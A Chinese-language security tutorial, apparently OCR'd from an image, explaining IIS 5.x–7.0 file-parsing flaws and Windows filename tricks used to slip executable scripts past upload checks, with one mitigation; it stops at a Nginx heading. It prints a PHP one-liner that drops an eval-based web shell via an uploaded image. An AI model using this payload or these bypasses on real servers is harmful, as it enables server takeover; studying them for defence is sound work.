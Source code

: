 

IIS解析漏洞

-------



### 目录解析漏洞(/test.asp/1.jpg)



在 **IIS5.x/6.0** 中，在网站下建立文件夹的名字为\*.asp、\*.asa、\*.cer、\*.cdx 的文件夹，那么其目录内的任何扩展名的文件都会被IIS当做asp文件来解释并执行。例如创建目录 test.asp，那么 /test.asp/1.jpg 将被当做asp文件来执行。假设黑客可以控制上传文件夹路径，就可以不管上传后你的图片改不改名都能拿shell了



### 文件名解析漏洞(test.asp;.jpg)



在 **IIS5.x/6.0** 中， 分号后面的不被解析，也就是说 xie.asp;.jpg 会被服务器看成是xie.asp。还有IIS6.0默认的可执行文件除了asp还包含这两种 .asa   .cer 。而有些网站对用户上传的文件进行校验，只是校验其后缀名。所以我们只要上传 \*.asp;.jpg、\*.asa;.jpg、\*.cer;.jpg 后缀的文件，就可以通过服务器校验，并且服务器会把它当成asp文件执行。



### 畸形解析漏洞(test.jpg/\*.php)



微软发布了IIS7.0修补了IIS6.0的解析漏洞，没想到IIS7.0爆出更严重的畸形解析漏洞，于是微软急忙发布了IIS7.5



在 IIS7.0中，在默认Fast-CGI开启状况下，我们往图片里面写入下面的代码



```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[x])?>')?>
```




将文件保存成test.jpg格式，上传到服务器，假设上传路径为/upload，上传成功后，直接访问/upload/test.jpg/x.php，此时神奇的畸形解析开始发挥作用啦。test.jpg将会被服务器当成php文件执行，所以图片里面的代码就会被执行。我们会神奇的发现在 /upload 目录下创建了一个一句话木马文件 shell.php 。



临时解决办法：设置 cgi.fix\_pathinfo为0



这个解析漏洞和下面讲的Nginx的解析漏洞是一样的。



### **其他解析漏洞**



在windows环境下，**xx.jpg\[空格\]**  或 **xx.jpg.**  这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，黑客可以通过抓包，在文件名后加一个空格或者点绕过黑名单。若上传成功，空格和点都会被windows自动消除。



Ngnix解析漏洞

